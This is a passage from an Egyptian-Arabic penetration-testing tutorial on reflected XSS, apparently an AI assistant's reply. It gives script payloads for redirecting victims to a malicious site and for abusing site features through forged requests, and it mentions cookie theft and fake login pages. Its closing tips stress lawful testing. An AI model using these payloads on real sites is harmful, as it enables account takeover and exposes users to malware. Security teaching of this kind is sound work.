 6. **إعادة توجيه لموقع خبيث (Malicious Redirect):**
   - **الوصف**: ترمي الضحية على موقع فيه فيروسات أو هجمات تانية.
   - **Payload**:
     ```html
     <script>window.location='malicious-site.com';</script>
     ```
   - **الخطوات**:
     1. اختار موقع خبيث جاهز.
     2. استخدم الرابط عشان تعمل Redirect.

7. **استغلال ميزات الموقع نفسه:**
   - **الوصف**: لو الموقع فيه ميزات زي إرسال رسايل أو تعديل بيانات، ممكن تستغلها.
   - **Payload**:
     ```html
     <script>
       fetch('example.com/send-message', {
         method: 'POST',
         body: 'message=You are hacked!'
       });
     </script>
     ```
   - **الخطوات**:
     1. ادرس ميزات الموقع (زي الشات أو الإعدادات).
     2. استخدم Payload عشان تنفذ الأوامر دي.

---

**خلاصة بالعامية للسيناريوهات:**
كل سيناريو زي لعبة مختلفة. ممكن تسرق الكوكيز وتدخل على حساب الضحية، أو تعمل صفحة مزيفة وتخليها تديك الباسورد، أو حتى تخلّي المتصفح ينزّل فيروس. المهم تفهم الموقع بيعمل إيه وتستخدم الـ Payload المناسب.

---

### **4. نصايح للـ Pentester**
1. **اختبر بأمان**: استخدم بيئة اختبار أو موقعك الخاص عشان تتجنب المشاكل القانونية.
2. **جرب Payloads مختلفة**: المواقع بتستخدم فلاتر مختلفة، فجرب أكواد زي `<img>`، `<svg>`، أو حتى بدون `<script>`.
3. **استخدم أدوات تلقائية**: زي XSStrike أو Burp Suite عشان توفر وقت.
4. **سجّل كل حاجة**: وانت بتختبر، سجّل الـ Payloads والنتايج عشان تقدر تكتب تقرير دقيق.
5. **افهم السياق**: كل موقع ليه طريقة عرض بيانات مختلفة، فحاول تفهم إزاي المدخلات بتتعرض (في HTML، Attributes، أو JavaScript).

---

**خلاصة نهائية بالعامية:**
Reflected XSS زي السلاح السحري في الـ Pentesting. لو لقيت موقع بيعكس البيانات من غير ما ينظفها، يبقى عندك كنز. تقدر تسرق كوكيز، تعمل Redirect، أو حتى تخلّي المستخدم ينفذ أوامر من غير ما يحس. المهم تكون مبدع في الـ Payloads وتستخدم أدوات زي Burp Suite عشان تخلّي شغلك أسرع وأدق. بس خلّي بالك، اشتغل بأمان وخلّي اختباراتك قانونية!

لو عايز أي توضيح إضافي أو أمثلة تانية، قولي! 😎